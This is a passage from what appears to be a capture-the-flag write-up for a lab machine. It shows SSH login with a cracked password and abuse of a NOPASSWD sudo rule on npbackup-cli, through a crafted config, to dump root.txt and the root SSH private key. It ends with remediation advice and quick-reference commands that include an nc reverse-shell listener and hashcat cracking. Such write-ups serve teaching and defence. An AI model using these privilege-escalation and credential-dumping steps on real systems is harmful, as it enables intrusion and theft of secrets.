Now we can SSH into the machine as marco:

```bash
ssh marco@10.10.11.82
```

When prompted for a password, enter: `sweetangelbabylove`

**Expected Output:**
```
Welcome to Ubuntu 20.04.6 LTS
marco@codeparttwo:~$
```

### Step 19: Retrieve User Flag

```bash
cat ~/user.txt
```

** User Flag: ** `6d80c3b2809df3959b9651ccc203ef97`



---

## Privilege Escalation

### Step 20: Check Sudo Privileges

```bash
sudo -l
```

**Output:**
```
User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```



**Analysis:**
- Marco can run `/usr/local/bin/npbackup-cli` as root
- No password required (`NOPASSWD`)
- This is our privilege escalation vector!

### Step 21: Understand npbackup-cli

npbackup is a backup utility. Let's check its help:

```bash
npbackup-cli --help | head -50
```

**Key Options:**
- `-c CONFIG_FILE`: Use custom configuration file
- `-b, --backup`: Run a backup
- `-f, --force`: Force backup regardless of existing backups
- `--ls [LS]`: Show content of snapshot
- `--dump DUMP`: Dump a specific file to stdout
- `-r RESTORE`: Restore to specified path

**Attack Idea:**
If we can control the configuration file, we can:
1. Tell npbackup to back up `/root` directory
2. Extract files from the backup (including root.txt or SSH keys)

### Step 22: Create Malicious Configuration

Create a custom config file in `/tmp`:

```bash
cd /tmp
cat > exploit.conf <<'EOF'
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: /tmp/backup_repo
    repo_group: default_group
    backup_opts:
      paths:
      - /root
      source_type: folder_list
    repo_opts:
      repo_password: test123
      retention_policy: {}
groups:
  default_group:
    backup_opts:
      paths: []
      tags: []
      compression: auto
    repo_opts:
      repo_password: test123
identity:
  machine_id: pwned
global_options:
  auto_upgrade: false
EOF
```

**Configuration Explanation:**
- `repo_uri: /tmp/backup_repo`: Store backup in /tmp (we have write access)
- `paths: ["/root"]`: **Back up the /root directory** (we don't have normal access to this)
- `repo_password: test123`: Simple password for the backup

### Step 23: Initialize the Backup Repository

```bash
sudo /usr/local/bin/npbackup-cli -c exploit.conf --init
```

**Expected Output:**
```
created restic repository 03b6736d5c at /tmp/backup_repo
Please note that knowledge of your password is required to access the repository.
```

**What happened:** We created a backup repository in `/tmp/backup_repo`



### Step 24: Run the Backup (as Root!)

```bash
sudo /usr/local/bin/npbackup-cli -c exploit.conf -b -f
```

**Command Breakdown:**
- `sudo`: Run as root
- `-c exploit.conf`: Use our malicious config
- `-b`: Run backup
- `-f`: Force backup (ignore age checks)

**Expected Output:**
```
Files:          15 new,     0 changed,     0 unmodified
Dirs:            8 new,     0 changed,     0 unmodified
Added to the repository: 206.612 KiB (40.424 KiB stored)
processed 15 files, 197.660 KiB in 0:00
snapshot 334e23c3 saved
```

** Success!** The backup ran as root and backed up `/root` directory!


### Step 25: List Snapshots

```bash
sudo /usr/local/bin/npbackup-cli -c exploit.conf -s
```

**Output:**
```
ID        Time                 Host         Tags        Paths  Size
--------------------------------------------------------------------------
1bf6e4cf  2025-11-27 04:22:36  codeparttwo              /root  197.660 KiB
--------------------------------------------------------------------------
```


Note the snapshot ID: `1bf6e4cf`

### Step 26: List Contents of the Backup

```bash
sudo /usr/local/bin/npbackup-cli -c exploit.conf --ls
```

**Output:**
```
snapshot 1bf6e4cf of [/root] at 2025-11-27 04:22:36.703676641 +0000 UTC by root@codeparttwo filtered by []:
/root
/root/.bash_history
/root/.bashrc
/root/.cache
/root/.cache/motd.legal-displayed
/root/.local
/root/.local/share
/root/.local/share/nano
/root/.local/share/nano/search_history
/root/.mysql_history
/root/.profile
/root/.python_history
/root/.sqlite_history
/root/.ssh
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.vim
/root/.vim/.netrwhist
/root/root.txt
/root/scripts
/root/scripts/backup.tar.gz
/root/scripts/cleanup.sh
/root/scripts/cleanup_conf.sh
/root/scripts/cleanup_db.sh
/root/scripts/cleanup_marco.sh
/root/scripts/npbackup.conf
/root/scripts/users.db
```



**Perfect!** We can see `root.txt` and the root SSH key!

### Step 27: Extract root.txt

```bash
sudo /usr/local/bin/npbackup-cli -c exploit.conf --dump /root/root.txt
```


** Root Flag:** `1fde280bad2b0846114b6cbf527c0a23`

### Step 28: (Optional) Get Root Shell via SSH Key

If you want a proper root shell, extract the SSH key:

```bash
sudo /usr/local/bin/npbackup-cli -c exploit.conf --dump /root/.ssh/id_rsa > /tmp/root_key
chmod 600 /tmp/root_key
ssh -i /tmp/root_key root@localhost
```

**Or restore the entire /root directory:**
```bash
sudo /usr/local/bin/npbackup-cli -c exploit.conf --restore /tmp/root_restore
ls -la /tmp/root_restore/root/
cat /tmp/root_restore/root/root.txt
```

---

## Flags

**User Flag (marco):**  
```
6d80c3b2809df3959b9651ccc203ef97
```

**Root Flag:**  
```
1fde280bad2b0846114b6cbf527c0a23
```

---

## Why the Exploit Worked

### • 1. Unsafe server-side JS execution

The app passed **untrusted user JS** directly into `js2py.eval_js()` allowing attacker-supplied code to run on the server.

### • 2. js2py sandbox escape (CVE-2024-28397)

`js2py.disable_pyimport()` was present but insufficient — prototype/property traversal (`__class__`, `__base__`, `__subclasses__()`) allowed escaping the JS layer and reaching Python internals.

### • 3. Direct access to `subprocess.Popen`

Once Python classes were reachable, the exploit located `subprocess.Popen` and executed system commands (reverse shell) — full remote code execution.

### • 4. Weak credential storage (MD5)

User passwords were hashed with **MD5**, making offline cracking trivial (rockyou easily recovered `marco`'s password).

### • 5. Dangerous sudo configuration (npbackup-cli)

`marco` had `NOPASSWD` rights to `/usr/local/bin/npbackup-cli` and the tool accepted custom config files. Running it as root allowed backing up and extracting `/root`, exposing `root.txt` and private keys.

---

## • How to Remediate

### • 1. Remove/effectively sandbox server-side JS execution

- Do **not** evaluate untrusted JS. If execution is required, run it in a hardened, isolated sandbox (container, separate VM, or hardened JS runtime with strict syscall/file/network restrictions).
- Prefer design changes: avoid server-side code execution features on public-facing apps.

### • 2. Patch / replace js2py usage

- Upgrade js2py to a fixed version if available **or** stop using js2py for untrusted input.
- Ensure any JS-to-Python layer cannot access Python internals (`__class__`, `__base__`, `__subclasses__`) — but safer to remove the attack surface entirely.

### • 3. Use strong password hashing & policies

- Replace MD5 with **bcrypt / Argon2 / scrypt**.
- Enforce strong password rules and rate-limiting/account lockouts to reduce brute-force risk.

### • 4. Harden sudo and backup tooling

- Remove `NOPASSWD` for risky commands.
- Do **not** allow untrusted users to pass arbitrary config files to privileged backup utilities.
- If a backup tool must run as root, restrict config paths to root-owned locations and validate/whitelist allowed actions.

### • 5. Least privilege & log access control

- Limit group memberships (don’t give app users access to sensitive data).
- Restrict read access to system directories (`/root`, `/etc`, logs`) to necessary admins only.

### • 6. Monitoring & defense-in-depth

- Log and alert on unusual code-execution API usage and unexpected snapshot/backup operations.
- Periodically scan for risky patterns (evals, direct subprocess calls) in the codebase.

---

##  Key Takeaways

- **Never eval untrusted code server-side.** Server-side code runners are high-risk features.
- **Library “hardening” is not a substitute for design changes.** `disable_pyimport()` was not enough — remove or isolate the feature.
- **Weak hashes = easy compromise.** MD5 makes credential theft trivial in a breach.
- **Sudo + flexible config = full root.** Privileged binaries that accept user-controlled config or paths are an escalation time-bomb.
- **Defence-in-depth wins:** combine secure design (no eval), strong crypto (bcrypt/Argon2), strict sudo policies, and monitoring to prevent single-point exploit chains.

---
## Conclusion

### Summary of Attack Path

1. **Reconnaissance:** Discovered port 8000 running Gunicorn web server
2. **Enumeration:** Found JavaScript code execution feature and downloaded source code
3. **Vulnerability Identification:** Identified js2py sandbox escape (CVE-2024-28397)
4. **Initial Access:** Exploited js2py to get reverse shell as `app` user
5. **Lateral Movement:** Extracted SQLite database with marco's MD5 password hash
6. **Password Cracking:** Cracked hash to get `sweetangelbabylove`
7. **User Access:** SSH'd as marco and retrieved user flag
8. **Privilege Escalation:** Exploited sudo rights on npbackup-cli to backup /root
9. **Root Access:** Extracted root.txt from backup

### Key Vulnerabilities

1. **CVE-2024-28397 (js2py Sandbox Escape)**
   - Severity: Critical
   - Impact: Remote Code Execution
   - Fix: Update js2py or avoid using it for untrusted input

2. **Weak Password Hashing (MD5)**
   - Severity: High
   - Impact: Easy password recovery
   - Fix: Use bcrypt, argon2, or scrypt for password hashing

3. **Sudo Misconfiguration (npbackup)**
   - Severity: High
   - Impact: Privilege escalation to root
   - Fix: Restrict config file paths or don't allow custom configs with sudo

### Tools Used

- **Rustscan / Nmap:** Port scanning
- **Feroxbuster:** Directory enumeration
- **Python3:** Exploit scripting
- **SQLite3:** Database extraction
- **Hashcat:** Password cracking
- **SSH / Netcat:** Remote access

### Learning Resources

- **js2py CVE-2024-28397:** https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape
- **Python Sandbox Escapes:** https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes
- **Linux Privilege Escalation:** https://book.hacktricks.xyz/linux-hardening/privilege-escalation

---

## Quick Reference Commands

### Reconnaissance
```bash
rustscan -a 10.10.11.82 -r 1-65535 --ulimit 5000 -- -sCV -oN scan.txt
feroxbuster -u http://10.10.11.82:8000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

### Exploitation
```bash
# Start listener
nc -lvnp 4444

# Run exploit (in separate terminal)
python3 /tmp/js2py_exploit.py
```

### Password Cracking
```bash
echo '649c9d65a206a75f5abe509fe128bce5' > marco.hash
hashcat -m 0 -a 0 marco.hash /usr/share/wordlists/rockyou.txt --force
```

### Privilege Escalation
```bash
# SSH as marco
ssh marco@10.10.11.82  # password: sweetangelbabylove

# Create malicious config
cat > /tmp/exploit.conf <<'EOF'
[config content here]
EOF

# Initialize, backup, and extract
sudo npbackup-cli -c /tmp/exploit.conf --init
sudo npbackup-cli -c /tmp/exploit.conf -b -f
sudo npbackup-cli -c /tmp/exploit.conf --dump /root/root.txt
```

---

**Machine Pwned!**

